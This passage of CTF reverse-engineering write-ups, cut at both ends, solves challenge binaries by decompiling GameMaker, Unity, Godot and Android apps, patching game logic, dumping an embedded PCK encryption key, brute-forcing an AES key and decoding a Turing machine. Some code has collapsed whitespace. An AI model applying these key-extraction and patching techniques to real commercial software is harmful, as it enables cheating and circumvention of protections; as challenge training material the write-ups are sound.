    for (int i = 0; i < MAX_DATA_FILES; ++i)
    {
        readDataFile(i + 1, data[i]);
    }

    for (int i = 0; i < MAX_DATA_FILES; ++i)
    {
        int currentSection = data[i].startOffset / SECTION_SIZE;
        char buff[6] = { 0 };
        int bufferIndex = 4;

        buff[bufferIndex] = indexToChar(sectionOffsetToIndex(data[i].startOffset, currentSection));
        bufferIndex--;

        do
        {
            int index = 0;
            int nextSection = findNextSection(data[i], currentSection, index);
            if (nextSection >= 0)
            {
                buff[bufferIndex] = indexToChar(index);
                bufferIndex--;
            }
            currentSection = nextSection;
        } while (currentSection != -1);

        printf(buff);
    }
}
```

Flag `lactf{meow_you_found_me_epcsihnxos}`

### **Problem - 35 : ( Flag-finder )**

Speak with the almighty flag. Perhaps if you find an item it likes, it will be willing to share some of its knowledge? I'm sure it's in the room somewhere...
Note: Enter the flag using all lowercase. M1/M2 Macs must use Rosetta.

Solution :

After extracting the archive we find three files. One called `data.win`, an executable and a `options.ini`. This looks like a game, from here we need to know if a commonly known `Game Engine` or `Game SDK` was used to create this. Running `strings` on the executable brings results that suggest the engine used was `GameMaker`.

```
D:\a\GameMaker\GameMaker\GameMaker\Runner\VC_Runner\x64\Release-Zeus\Runner.pdb
```

For GameMaker [`UndertaleModTool`](https://github.com/krzys-h/UndertaleModTool) can be used. This allows us to basically inspect the whole game. Looking at the `rooms` we can see the game workd and inside a pretty obvious `flag`.


Inspecting the flag object definition, we find the flag inherits from `obj_par_npc`. NPCs have a set of properties they are initialized with, one is a `myState` that is set to `0`.

```
event_inherited()
loopRange01 = 30
loopRange02 = 240
myText = "Why, hello there!"
myItem = -4
itemTextHappy = "Text for the right item."
itemTextSad = "Text for the wrong item."
itemTextDone = "Thank you text."
sequenceHappy = -4
sequenceSad = -4
myState = (0 << 0)
doneSprite = -4
```

The flag overrides some of the properties.

```
event_inherited()
myText = "You want the flag? Find me the key. I'm sure it's somewhere in this room..."
myItem = 20
itemTextHappy = "Oh sweet, that's exactly what I was looking for!"
itemTextSad = "Wrong item... smh"
itemTextDone = "Thanks again :D"
```

Also the flag bind code to a `DrawGUI` event. The code generates a sprite with drawing a bunch of lines to it. This is only done if `myState` has the value `1`. But we remember that `myState` was initialized to value `0`.


```
switch myState
{
    case (1 << 0):
        draw_sprite_ext(spr_gui_textbox, 1, 540, 40, 2.5, 0.29999999999999999, 0, c_white, 1)
        self.draw_sprite_line(60, 1, 20, 20, 20, 60)
        self.draw_sprite_line(60, 1, 20, 55, 60, 55)
        self.draw_sprite_line(60, 1, 70, 20, 70, 60)
        self.draw_sprite_line(60, 1, 70, 20, 105, 20)
        self.draw_sprite_line(60, 1, 105, 20, 105, 60)
        self.draw_sprite_line(60, 1, 70, 35, 105, 35)
        self.draw_sprite_line(60, 1, 115, 20, 115, 60)
        self.draw_sprite_line(60, 1, 115, 20, 160, 20)
        self.draw_sprite_line(60, 1, 115, 55, 160, 55)
        self.draw_sprite_line(60, 1, 170, 20, 210, 20)
        self.draw_sprite_line(60, 1, 190, 20, 190, 60)
        self.draw_sprite_line(60, 1, 220, 20, 220, 60)
        self.draw_sprite_line(60, 1, 220, 20, 260, 20)
        self.draw_sprite_line(60, 1, 220, 35, 250, 35)
        self.draw_sprite_line(60, 1, 275, 20, 285, 20)
        self.draw_sprite_line(60, 1, 275, 20, 275, 35)
        self.draw_sprite_line(60, 1, 275, 35, 270, 45)
        self.draw_sprite_line(60, 1, 270, 45, 275, 55)
        self.draw_sprite_line(60, 1, 275, 55, 275, 70)
        self.draw_sprite_line(60, 1, 275, 65, 285, 65)
        self.draw_sprite_line(60, 1, 295, 20, 295, 60)
        self.draw_sprite_line(60, 1, 295, 40, 325, 60)
        self.draw_sprite_line(60, 1, 295, 40, 325, 20)
        self.draw_sprite_line(60, 1, 335, 20, 375, 20)
        self.draw_sprite_line(60, 1, 335, 35, 375, 35)
        self.draw_sprite_line(60, 1, 335, 55, 375, 55)
        self.draw_sprite_line(60, 1, 375, 20, 375, 55)
        self.draw_sprite_line(60, 1, 385, 20, 415, 35)
        self.draw_sprite_line(60, 1, 415, 35, 445, 20)
        self.draw_sprite_line(60, 1, 415, 35, 415, 60)
        self.draw_sprite_line(60, 1, 455, 60, 500, 60)
        self.draw_sprite_line(60, 1, 510, 20, 550, 20)
        self.draw_sprite_line(60, 1, 530, 20, 530, 60)
        self.draw_sprite_line(60, 1, 560, 20, 600, 20)
        self.draw_sprite_line(60, 1, 560, 55, 600, 55)
        self.draw_sprite_line(60, 1, 560, 20, 560, 55)
        self.draw_sprite_line(60, 1, 600, 20, 600, 55)
        self.draw_sprite_line(60, 1, 610, 60, 650, 60)
        self.draw_sprite_line(60, 1, 660, 20, 660, 60)
        self.draw_sprite_line(60, 1, 660, 20, 690, 35)
        self.draw_sprite_line(60, 1, 685, 35, 715, 20)
        self.draw_sprite_line(60, 1, 715, 20, 715, 60)
        self.draw_sprite_line(60, 1, 725, 20, 755, 35)
        self.draw_sprite_line(60, 1, 755, 35, 775, 20)
        self.draw_sprite_line(60, 1, 755, 35, 755, 60)
        self.draw_sprite_line(60, 1, 765, 60, 800, 60)
        self.draw_sprite_line(60, 1, 810, 20, 810, 60)
        self.draw_sprite_line(60, 1, 810, 35, 860, 35)
        self.draw_sprite_line(60, 1, 860, 20, 860, 60)
        self.draw_sprite_line(60, 1, 870, 20, 910, 20)
        self.draw_sprite_line(60, 1, 870, 35, 910, 35)
        self.draw_sprite_line(60, 1, 870, 55, 910, 55)
        self.draw_sprite_line(60, 1, 910, 20, 910, 55)
        self.draw_sprite_line(60, 1, 920, 35, 965, 35)
        self.draw_sprite_line(60, 1, 920, 35, 960, 20)
        self.draw_sprite_line(60, 1, 960, 20, 960, 60)
        self.draw_sprite_line(60, 1, 975, 20, 975, 60)
        self.draw_sprite_line(60, 1, 975, 20, 1020, 20)
        self.draw_sprite_line(60, 1, 1015, 20, 1015, 35)
        self.draw_sprite_line(60, 1, 975, 35, 1020, 35)
        self.draw_sprite_line(60, 1, 980, 35, 1020, 60)
        self.draw_sprite_line(60, 1, 1030, 20, 1070, 20)
        self.draw_sprite_line(60, 1, 1050, 20, 1050, 60)
        self.draw_sprite_line(60, 1, 1080, 20, 1095, 20)
        self.draw_sprite_line(60, 1, 1095, 20, 1095, 35)
        self.draw_sprite_line(60, 1, 1095, 35, 1100, 45)
        self.draw_sprite_line(60, 1, 1100, 45, 1095, 55)
        self.draw_sprite_line(60, 1, 1095, 55, 1095, 70)
        self.draw_sprite_line(60, 1, 1095, 70, 1080, 70)
        break
}
```

Well, that can be chanced quickly by adapting the initialization code for the flag.

```
event_inherited()
myText = "You want the flag? Find me the key. I'm sure it's somewhere in this room..."
myItem = 20
itemTextHappy = "Oh sweet, that's exactly what I was looking for!"
itemTextSad = "Wrong item... smh"
itemTextDone = "Thanks again :D"
myState = 1
```


Another method could be to just extract the draw code. Its fairly simple and can be done easily.

```python
from PIL import Image, ImageDraw
from lines import l #l being an array of the points extracted before

im = Image.new('RGB', (2000, 100))

draw = ImageDraw.Draw(im)

for i in range(0, len(l), 4):
    x0 = l[i]
    y0 = l[i+1]
    x1 = l[i+2]
    y1 = l[i+3]
    draw.line((x0,y0, x1,y1))

im.save('test.png')
```


Flag `lactf{k3y_to_my_h34rt}`

### **Problem - 36 : ( Solving_equations )**

BrokenAppendix

My mom won't let me play osu if I don't study for the SAT but this looks nothing like it! Please help me! T^T

[https://drive.google.com/file/d/1AXGE-Ox0ekkcz0yrYae-MTovZuUa86vk/view?usp=drive_link](https://drive.google.com/file/d/1AXGE-Ox0ekkcz0yrYae-MTovZuUa86vk/view?usp=drive_link)

Solution :

The fastest way is to throw they into `Mathematica`, but any solver(`z3`, `sympy`) should also work.

Gave that to chatGPT and it solved this problem →

```python
from sympy import symbols, Eq
from sympy.solvers import solve

# Define the variables
a, b, c, d, e, f, g, h, i, j, k, l, m, n, o, p, q, r, s, t, u, v, w, x = symbols(
    "a b c d e f g h i j k l m n o p q r s t u v w x"
)

# Define the equations
equations = [
    Eq(b + c + w, 314),
    Eq(t + d + u, 290),
    Eq(p + w + e, 251),
    Eq(v + l + j, 274),
    Eq(a + t + b, 344),
    Eq(b + j + m, 255),
    Eq(h + o + u, 253),
    Eq(q + l + o, 316),
    Eq(a + g + j, 252),
    Eq(q + x + q, 315),
    Eq(t + n + m, 302),
    Eq(d + b + g, 328),
    Eq(e + o + m, 246),
    Eq(v + v + u, 271),
    Eq(f + o + q, 318),
    Eq(s + o + j, 212),
    Eq(j + j + n, 197),
    Eq(s + u + l, 213),
    Eq(q + w + j, 228),
    Eq(i + d + r, 350),
    Eq(e + k + u, 177),
    Eq(w + n + a, 288),
    Eq(r + e + u, 212),
    Eq(q + l + f, 321),
]

# Solve the system of equations
solution = solve(equations)

# Display the solution
print("Solution:")
for variable, value in solution.items():
    flag = ''.join(chr(int(value)) for value in solution.values())
print(flag)
```

osu{0rZ_p3PpY_my_s4v1oR}

### **Problem - 37 : ( Unity_game )**

During his sophomore year of high school, enscribe made a really bad osu!catch clone for his final project in his Exploring Computer Science class. It was his first time on Unity, but it has some charm to it!

Receive an SS (with maximum score) on “Bakamitai”, the hardest map, to receive the flag. Shouldn’t be too difficult, right?

Note: An SS is not enough! The remote has additional checks for specific scoring (the maximum score if SS’ed “legitimately”).

Note: This executable is built for x86 Windows.

[ecs!catch.zip](https://ctf.osugaming.lol/uploads/d6d57424f0db556152201e42666683ea5fa689747e4459a314d8a9fc6fb807ae/ecs!catch.zip)

[https://drive.google.com/file/d/1wNJAKrzKSTBDN0Js0aTcllyxbgaRaqc6/view?usp=drive_link](https://drive.google.com/file/d/1wNJAKrzKSTBDN0Js0aTcllyxbgaRaqc6/view?usp=drive_link)

Solution :

After a few search about Unity game reversing, it turns out that `ecs!catch_Data\Managed\Assembly-CSharp.dll` contains most of the user code. So we decompile it with [`dnSpy`](https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8).

The challenge description said we need to `Receive an SS (with maximum score) on "Bakamitai"`. Reading the [Official Wiki](https://osu.ppy.sh/wiki/en/Game_mode/osu!catch#scoring) about scoring, we know that we just need to avoid every misses. Searching methods about `Miss` and their cross references led us to:

```csharp
// Token: 0x060003EE RID: 1006 RVA: 0x00015EC4 File Offset: 0x000140C4
public void NoteMissed()
{
    this.missedTotal += 1f;
    this.possibleNotes++;
    this.currentCombo = 1;
    this.comboText.text = this.currentCombo.ToString() + "x";
    this.TakeDamage(1);
}
```

```csharp
public class NoteObject : MonoBehaviour
{
	// Token: 0x060003FA RID: 1018 RVA: 0x000166C0 File Offset: 0x000148C0
	private void OnTriggerEnter2D(Collider2D other)
	{
		if (other.tag == "Activator")
		{
			if (base.gameObject != null)
			{
				this.hitSound.Play();
				this.hasPlayed = true;
			}
			Object.Destroy(base.gameObject);
			if (base.gameObject.tag == "Fruit" || base.gameObject.tag == "Hyperfruit")
			{
				GameManager.instance.NoteHitFruit();
				return;
			}
			if (base.gameObject.tag == "Start")
			{
				GameManager.instance.NoteHitStart();
				return;
			}
			if (base.gameObject.tag == "Clapfruit")
			{
				GameManager.instance.ClapFruitHit();
				return;
			}
			if (base.gameObject.tag == "Drop")
			{
				GameManager.instance.NoteHitDrop();
				return;
			}
			if (base.gameObject.tag == "Droplet")
			{
				GameManager.instance.NoteHitDroplet();
				return;
			}
			if (base.gameObject.tag == "Finish")
			{
				GameManager.instance.showResultsScreen();
			}
		}
	}

	// Token: 0x060003FB RID: 1019 RVA: 0x000167F0 File Offset: 0x000149F0
	private void OnTriggerExit2D(Collider2D other)
	{
		if (base.gameObject.activeSelf && other.tag == "Missed" && base.gameObject.tag != "Droplet")
		{
			this.missHitSound.Play();
			GameManager.instance.NoteMissed();
		}
	}

	// Token: 0x04000231 RID: 561
	public AudioSource hitSound;

	// Token: 0x04000232 RID: 562
	public AudioSource missHitSound;

	// Token: 0x04000233 RID: 563
	public bool hasPlayed;
}
```

The simplest way: Patch this class to treat `Miss` as `Hit` and miss all the notes:

```csharp
using System;
using UnityEngine;

// Token: 0x0200003E RID: 62
public class NoteObject : MonoBehaviour
{
	// Token: 0x060003FA RID: 1018
	private void OnTriggerEnter2D(Collider2D other)
	{
	}

	// Token: 0x060003FB RID: 1019
	private void OnTriggerExit2D(Collider2D other)
	{
		if (other.tag == "Missed")
		{
			if (base.gameObject != null)
			{
				this.hitSound.Play();
				this.hasPlayed = true;
			}
			Object.Destroy(base.gameObject);
			if (base.gameObject.tag == "Fruit" || base.gameObject.tag == "Hyperfruit")
			{
				GameManager.instance.NoteHitFruit();
				return;
			}
			if (base.gameObject.tag == "Start")
			{
				GameManager.instance.NoteHitStart();
				return;
			}
			if (base.gameObject.tag == "Clapfruit")
			{
				GameManager.instance.ClapFruitHit();
				return;
			}
			if (base.gameObject.tag == "Drop")
			{
				GameManager.instance.NoteHitDrop();
				return;
			}
			if (base.gameObject.tag == "Droplet")
			{
				GameManager.instance.NoteHitDroplet();
				return;
			}
			if (base.gameObject.tag == "Finish")
			{
				GameManager.instance.showResultsScreen();
			}
		}
	}

	// Token: 0x04000231 RID: 561
	public AudioSource hitSound;

	// Token: 0x04000232 RID: 562
	public AudioSource missHitSound;

	// Token: 0x04000233 RID: 563
	public bool hasPlayed;
}
```

A thing to notice is that your final accuracy should be `100%`, not `200%`.


### Problem - 38 :

[**https://web-osu-wysi.surge.sh/**](https://web-osu-wysi.surge.sh/)

For non-osu! players: [**Aireu 727 WYSI on YouTube**](https://youtu.be/AaAF51Gwbxo?si=uDjC7UM9IQ_jUx7o&t=60)

Solution :

After going to that site →


```jsx
  <script type="module">
    var combos = [];

    function wysi() {
      if (combos.length === 8) {
        var cs = combos.join("");
        var csr = cs + cs.split("").reverse().join("");
        var res = CryptoJS.AES.decrypt("5LJJj+x+/cGxhxBTdj/Q2RxkhgbH7v8b/IgX9Kjptpo=", CryptoJS.enc.Hex.parse(csr + csr), { mode: CryptoJS.mode.ECB }).toString(CryptoJS.enc.Utf8);
        // if prefix is "osu{" then its correct
        if (res.startsWith("osu{")) {
          document.getElementById("music").innerHTML = '<audio src="./wysi.mp3" autoplay></audio>';
          console.log(res);
        } else {
          // reset
          console.log("nope.");
          combos = [];
        }
      }
    }

    $(document).ready(function() {
      $("#frame").on("click", "button", function() {
        var buttonValue = $(this).data("value");
        combos.push(buttonValue);
        wysi();
      });
    });
  </script>
```

From the source code, we can know that `cs` has the form of `\d{8}`. The key space is hence $10^8$, making bruteforce possible.

```jsx
from Crypto.Cipher import AES
from base64 import b64decode
cipher = b64decode(b'5LJJj+x+/cGxhxBTdj/Q2RxkhgbH7v8b/IgX9Kjptpo=')
for combos in range(10**9):
    cs = str(combos).rjust(8,'0')
    csr = cs + cs[::-1]
    res = AES.new(bytes.fromhex(csr + csr),AES.MODE_ECB).decrypt(cipher)
    if res.startswith(b'osu{'):
        print(combos)
        break

# osu{baby_js_osu_web_uwu}
```

### **Problem - 39 : ( BoxCutter )**

You've received a supply of valuable food and medicine from a generous sponsor. There's just one problem - the box is made of solid steel! Luckily, there's a dumb automated defense robot which you may be able to trick into opening the box for you - it's programmed to only attack things with the correct label.

Files: [cutter](https://github.com/hagronnestad/ctf-htb-cyber-apocalypse-2024/blob/main/reversing/box_cutter/rev_boxcutter/rev_boxcutter/cutter)

[https://drive.google.com/file/d/1xBF_FLB24IXcZr8MxHGfMu-7tD1tmPzV/view?usp=drive_link](https://drive.google.com/file/d/1xBF_FLB24IXcZr8MxHGfMu-7tD1tmPzV/view?usp=drive_link)

Solution :


In the given challenge, words like “*automated defense robo*t” and “*correct label*” may hint at the need to analyze the program’s behavior, making `strace`a valuable tool for understanding its actions.

> “strace” is a debugging tool used to monitor system calls and signals. In CTF challenges, it can help uncover hidden functionality or reveal clues by tracing the execution of a program.
> 

We have found the flag in the line starting with “**openat(AT_FDCWD**”.

`openat()`is a system call used to open files, similar to open(). In this case, the file was the flag string, which does not exist, hence the error “*No such file or directory*”.

We’ve tried the **system call** monitoring route, what about any **dynamic library** calls? Another way of checking for the flag is by using `ltrace` tool to execute the binary and monitor library calls.

> “ltrace” is a debugging tool used to intercept and record dynamic library calls made by a program during its execution. It helps in understanding how a program interacts with shared libraries, which can be useful in analyzing its behavior or identifying specific functions or system calls it makes.
> 

Bingo! The **ltrace** tool successfully intercepted a dynamic library call to `open()`a file named “HTB{tr4c1ng_th3_c4ll5},” which, as expected, does not exist. However, this interception revealed the location where the flag value was hidden within the application.

### **Problem - 40 : ( Turing Machine )**


[https://drive.google.com/file/d/10XDivy5n4VpWNpzqapMRCdAcdr2lzehY/view?usp=drive_link](https://drive.google.com/file/d/10XDivy5n4VpWNpzqapMRCdAcdr2lzehY/view?usp=drive_link)

Solution :

primitive-reversing.zip contains three files: an output file,

```
[48, 48, 48, 49, 49, 48, 48, 49, 48, 49, 48, 49, 49, 48, 48, 49, 49, 49, 48, 48, 48, 48, 48, 48, 48, 49, 48, 49, 49, 48, 48, 48, 48, 49, 48, 49, 49, 48, 48, 48, 48, 48, 48, 49, 49, 48, 48, 48, 48, 48, 48, 49, 49, 48, 48, 49, 48, 49, 48, 48, 49, 49, 49, 48, 49, 49, 48, 49, 49, 49, 48, 48, 48, 48, 48, 49, 49, 48, 48, 49, 49, 49, 48, 48, 49, 49, 48, 48, 48, 49, 48, 48, 49, 48, 49, 49, 49, 48, 48, 49, 49, 48, 48, 48, 48, 49, 48, 48, 49, 49, 49, 48, 48, 49, 48, 48, 49, 49, 49, 49, 48, 48, 48, 49, 49, 48, 48, 48, 48, 49, 48, 48, 49, 49, 48, 49, 49, 48, 48, 49, 49, 48, 48, 48, 48, 49, 48, 49, 49, 48, 48, 48, 49, 48, 48, 49, 49, 48, 48, 48, 48, 49, 48, 49, 49, 49, 48, 48, 49, 49, 48, 49, 48, 49, 49, 49, 49, 49, 48, 49, 49, 49, 48, 49, 49, 48, 48, 49, 49, 48, 48, 48, 48, 49, 48, 49, 49, 49, 48, 49, 48, 49, 48, 48, 49, 49, 49, 48, 48, 49, 48, 48, 49, 49, 48, 48, 48, 49, 48, 49, 48, 49, 49, 49, 49, 49, 48, 48, 49, 48, 48, 48, 49, 48, 48, 49, 49, 48, 48, 49, 49, 49, 48, 49, 48, 49, 49, 49, 49, 49, 48, 48, 49, 49, 48, 48]
```

a Turing machine starter class,

```python
blank = 0
ACCEPT = "#ACCEPT"
REJECT = "REJECT"
R = 1
L = -1
START = "#START"

classState:
def__init__(self):
        self.cursor = 0
        self.tape = []
        self.current_state = START

classTuringMachine:
def__init__(self):
        self.transitions = {}

defrun_machine(self, state: State):
while True:
if state.cursor == -1or state.current_state == REJECT:
return REJECT
if state.current_state == ACCEPT:
return ACCEPT
if state.cursor >= len(state.tape):
                state.tape += [blank] * 1000
if (state.current_state, state.tape[state.cursor])notin self.transitions:
return REJECT

            write, direction, next_state = self.transitions[(state.current_state, state.tape[state.cursor])]
            state.tape[state.cursor] = write
            state.current_state = next_state
            state.cursor += direction

defadd_transition(self, current, read, write, direction, next_state):
        self.transitions[(current, read)] = (write, direction, next_state)

# put the input to the TM here
INPUT = b""
tm = TuringMachine()

# load the TM in after this with tm.add_transition
flag_state = State()
flag_state.tape = [xfor xin INPUT]

tm.run_machine(flag_state)
print(flag_state.tape)
```

and the state table of a Turing machine.

```
State #234    253  253  R State #234
State #580    108  108  R State #580
State #258    125  125  R State #258
State #746    225  225  R State #746
State #144    193  193  R State #144
State #325    199  199  R State #325
State #202    137  137  R State #202
... # 68k additional lines
State #568    159  159  R State #568
State #120    0    48   R State #121
State #606    62   62   R State #606
```

The Turing machine's state table is far too large to parse by hand. However, just peaking through the file, there are a few patterns:

1. The overwhelming majority of the transitions go from an ASCII value to itself, stay in the same state, and move right.
2. When any of the ASCII right-moving states sees a blank cell, it "switches modes", and starts writing a binary string to the end of the tape.
3. The output we are provided only has 48s and 49s, but our Turing machine supports all ASCII characters.

From this, we can guess that a subroutine the Turing machine implements is to convert an ASCII string to binary. The moving-right-until-blank pattern suggests that the machine does so by reading an ASCII character, reading all the way right until you see blank tape, writing that ASCII character in binary, returning left, and repeating.

From here, there are three main approaches, either brute force the Turing machine with ASCII inputs, attempt to backsolve the Turing machine by backtracking through the computation graph, or attempt to further analyze the machine's state space to infer what it is doing. I take the third approach, but want to point something out about brute forcing.

The first approach is tractable, but requires us to implement a simulator for the machine. Furthermore, it is of upmost importance that we do our brute force intelligently, namely that we only try inputs that start with UMASS{ and end with }.

In fact, the second step that the Turing machine takes is to read in the first 48 bytes, and check that they match the binary encoding of UMASS{, and read in the last 8 bytes to check that they match }. If we fail at any point of this process, we are sent to one of 56 different junk states. If we BFS from any of these states, we see that there is no path to the ACCEPT state. In fact, we discover that we landed in a torus graph, constructed from 13 disjoint 17-cycles, which carriage returns whenever it sees a blank, reads right until it sees a blank, writes, carriage returns, and so on.

```python
cr_length = 13
num_subgraphs = 17
subgraph_size = cr_length
graph_size = num_subgraphs * subgraph_size

# Carriage return states
for iin range(cr_length):
    tm.add_transition(f'carriage return {i}', zero, zero, L, f'carriage return {i + 1}')
    tm.add_transition(f'carriage return {i}', one, one, L, f'carriage return {i + 1}')
# When you finish carriage returning, go back to somewhere in the junk graph
tm.add_transition(f'carriage return {cr_length}', zero, one, R, f'reject 0')
tm.add_transition(f'carriage return {cr_length}', one, zero, R, f'reject {int(cr_length / 2)}')

# Obfuscation graph
# Make subgraphs, each of which is a cycle on alternating characters
for iin range(num_subgraphs):
for jin range(subgraph_size):
        k = i * subgraph_size + j
        cycle_successor = i * subgraph_size + ((j + 1) % subgraph_size)
        graph_successor = ((i + 1) % num_subgraphs) * subgraph_size + j
        tm.add_transition(f'reject {k}', ord(str(j % 2)), ord(str((j + 1) % 2)), R, f'reject {cycle_successor}')
        tm.add_transition(f'reject {k}', ord(str((j + 1) % 2)), ord(str(j % 2)), R, f'reject {graph_successor}')
# Make graph states put down their parity and carriage return when they see a blank
for iin range(graph_size):
    tm.add_transition(f'reject {i}', blank, ord(str(i % 2)), L, 'carriage return 0')
```

Primitive Reversing 1 was designed to be a lesson on brute forcing: if you know your input has certain structure, utilize that to your advantage. Once we filter out the ASCII conversion and junk graph states, the resulting function is relatively simple: states which swap pairs of bits and rotate the string. We just need to filter out noise

### **Recovering the flag**

By our above analysis, we know that the Turing machine

1. Converts the input string from ASCII to binary
2. Checks that the binary string follows the UMASS{} format, and deletes these characters
3. Iterates through the remainder of the flag and swaps consecutive bits
4. Left rotates the resulting string

Therefore, to recover the flag, we take the provided output, right rotate, swap consecutive bits, and convert to binary. Adding back the UMASS{} format, we obtain the flag

```
UMASS{k0lm0g0r0v_w0uld_b3_d1s@pp01nt3d}
```

### **Problem - 41 :**

Wanna play a game ? Cause Dark Backdoor wants you to …

[https://drive.google.com/file/d/11yCnB8q8YKuqaJeLVPzfMPJYh9w1-BMQ/view?usp=drive_link](https://drive.google.com/file/d/11yCnB8q8YKuqaJeLVPzfMPJYh9w1-BMQ/view?usp=drive_link)

Solution :

By opening the game from a terminal, it can be seen that the game has been developed with [Godot Engine](https://godotengine.org/), an open source game engine:

```
Godot Engine v4.2.1.stable.custom_build - https://godotengine.org
OpenGL API 3.3.0 NVIDIA 517.48 - Compatibility - Using Device: NVIDIA - NVIDIA GeForce MX250
```

[gdsdecomp](https://github.com/bruvzg/gdsdecomp) is a reverse engineering tools for games written with Godot Engine. It is able to recover a full project from the executable. Executables produced by Godot embed a "PCK" (packed) archive. gdsdecomp is able to locate that archive, extract it, and even decompile its embedded GDScripts.

Opening game.exe with gdsdecomp gives the following error message:


> Error opening encrypted PCK file: C:/Users/xx/Downloads/game.exe Set correct encryption key and try again.
> 

The PCK archive is encrypted. Its encryption key must be retrieved. As Godot Engine has to extract this archive to run the game, the encryption key must be present somewhere in the binary. By quickly looking at the project source code with " binary ninja ” , I found a location where thus key is manipulated and easy to retrieve with a debugger:


```c
bool PackedSourcePCK::try_open_pack(const String &p_path,bool p_replace_files,uint64_t p_offset) {
    Ref<FileAccess> f = FileAccess::open(p_path, FileAccess::READ);
if (f.is_null()) {
        return false;
    }

bool pck_header_found = false;

    // Search for the header at the start offset - standalone PCK file.
    f->seek(p_offset);
// ...if (enc_directory) {
        Ref<FileAccessEncrypted> fae;
        fae.instantiate();
        ERR_FAIL_COND_V_MSG(fae.is_null(), false, "Can't open encrypted pack directory.");

        Vector<uint8_t> key;
        key.resize(32);
for (int i = 0; i < key.size(); i++) {
            key.write[i] = script_encryption_key[i];
        }
```

Godot Engine has a verbose logging system. Error strings can be easily located in the binary. Breaking just after the reference to the "Can't open encrypted pack directory." message allows to directly dump the value of `script_encryption_key`.

Key value is DFE5729E1243D4F7778F546C0E1EE8CC532104963FF73604FFB3234CE5052B27.

Enter key in "RE Tools" --> "Set encryption key", then extract project.

Project contains 6 GD files: Beach.gd, Bullet.gd, Enemy.gd, EnemySpawner.gd, Main.gd and Player.gd. They are small and can be quickly analyzed. The interesting function for the challenge is `_unhandled_input`, located in Main.gd:

```python
func teleport():
    get_tree().change_scene_to_file("res://Beach.tscn")

func _unhandled_input(event):
if eventis InputEventKey:
if event.pressedand event.keycode == KEY_ESCAPE:
            get_tree().quit()
if event.pressedand event.keycode == KEY_Gand power == 0:
            power += 1elif event.pressedand event.keycode == KEY_Mand power == 1:
            power += 1elif event.pressedand event.keycode == KEY_Tand power == 2:
            power += 1elif event.pressedand event.keycode == KEY_Fand power == 3:
            power += 1elif event.pressedand event.keycode == KEY_Land power == 4:
            power += 1elif event.pressedand event.keycode == KEY_Aand power == 5:
            power += 1elif event.pressedand event.keycode == KEY_Gand power == 6:
            teleport()
elif event.pressed:
            power = 0
```

It checks for keyboard input events. If the good combination is entered, the main scene is replaced with the "Beach" scene thanks to the `teleport` function. The `_ready` function prints with a timer each char of the flag. As each char is put in a specific location, difficult to identify by just reading the source code, it is preferable to get the flag directly from the game, rather than by reading the code.

Open game, enter "gmtflag" and a new screen displays the flag.

Flag is THCON{60d07_D3cryp7}

### **Problem - 42 :**

*Hi there,*

*thanks for testing my new notes app. I know it's not done yet, but the military-grade encryption* *is implemented, so let's see if you can read my note.*

[https://drive.google.com/file/d/1wP3nqqNeI262bnW32vzdVb2VgzhkiOlz/view?usp=drive_link](https://drive.google.com/file/d/1wP3nqqNeI262bnW32vzdVb2VgzhkiOlz/view?usp=drive_link)

Solution :

This is a simple app. We install it on a test device and we see it presents a login screen:


With jadx decompile ,


The correct credentials as `admin` and `fbG6pXd0wm1cz`. We type them and we move on to the admin page which is handled by `com.example.firstjavaapplication.Part1` class:


The goal here is to enter the correct passphrase and decrypt the note. Let's see the most important parts of Part1:

```java
package com.example.firstjavaapplication;

/* ... */

public class Part1 extends AppCompatActivity {
    private Button buttonLogin;
    private Button buttonLogout;
    private EditText editTextPassphrase;

    private String generateFlag(String s) {
        StringBuffer stringBuffer0;
        try {
            MessageDigest messageDigest0 = MessageDigest.getInstance("MD5");
            messageDigest0.update(s.getBytes());
            byte[] arr_b = messageDigest0.digest();
            stringBuffer0 = new StringBuffer();
            for(int v = 0; v < arr_b.length; ++v) {
                stringBuffer0.append(String.format("%02X", ((byte)arr_b[v])));
            }
        }
        catch(NoSuchAlgorithmException noSuchAlgorithmException0) {
            noSuchAlgorithmException0.printStackTrace();
            return "";
        }

        return "FLAG1: INS{" + stringBuffer0.toString() + "}";
    }

    public static String getJSONData(Context context0, String s) {
        StringBuilder stringBuilder0 = new StringBuilder();
        try {
            BufferedReader bufferedReader0 = new BufferedReader(new InputStreamReader(context0.getAssets().open(s), "UTF-8"));
            while(true) {
                String s1 = bufferedReader0.readLine();
                if(s1 == null) {
                    break;
                }

                stringBuilder0.append(s1);
            }

            bufferedReader0.close();
            return stringBuilder0.toString();
        }
        catch(IOException iOException0) {
            iOException0.printStackTrace();
            return stringBuilder0.toString();
        }
    }

    @Override  // androidx.fragment.app.FragmentActivity
    protected void onCreate(Bundle bundle0) {
        String s1;
        super.onCreate(bundle0);
        this.setContentView(layout.activity_part1);
        this.editTextPassphrase = (EditText)this.findViewById(id.editTextPassphrase);
        this.buttonLogin = (Button)this.findViewById(id.buttonLogin);
        this.buttonLogout = (Button)this.findViewById(id.buttonLogout);
        String s = Part1.getJSONData(this, "storage.json");
        try {
            s1 = new JSONObject(s).getString("note");
        }
        catch(Exception exception0) {
            exception0.printStackTrace();
            s1 = "";
        }

        TextView textView0 = (TextView)this.findViewById(id.textViewFLAG2);
        textView0.setText(s1);
        this.buttonLogin.setOnClickListener(new View.OnClickListener() {
            private String MD5(String s) {
                StringBuffer stringBuffer0;
                try {
                    MessageDigest messageDigest0 = MessageDigest.getInstance("MD5");
                    messageDigest0.update(s.getBytes());
                    byte[] arr_b = messageDigest0.digest();
                    stringBuffer0 = new StringBuffer();
                    for(int v = 0; v < arr_b.length; ++v) {
                        stringBuffer0.append(String.format("%02X", ((byte)arr_b[v])));
                    }
                }
                catch(Exception exception0) {
                    exception0.printStackTrace();
                    return "";
                }

                return stringBuffer0.toString();
            }

            private String decrypt(String s, String s1) throws Exception {
                SecretKeySpec secretKeySpec0 = new SecretKeySpec(s1.getBytes(), "AES/ECB/PKCS7Padding");
                byte[] arr_b = Base64.decode(s, 0);
                Cipher cipher0 = Cipher.getInstance("AES/ECB/NoPadding");
                cipher0.init(2, secretKeySpec0);
                for(int v = 0; v < 313370; ++v) {
                    arr_b = cipher0.doFinal(arr_b);
                }

                Cipher cipher1 = Cipher.getInstance("AES/ECB/PKCS7Padding");
                cipher1.init(2, secretKeySpec0);
                return new String(cipher1.doFinal(arr_b), "UTF-8");
            }

            @Override  // android.view.View$OnClickListener
            public void onClick(View view0) {
                String s = Part1.this.editTextPassphrase.getText().toString().trim();
                if(!s.isEmpty()) {
                    try {
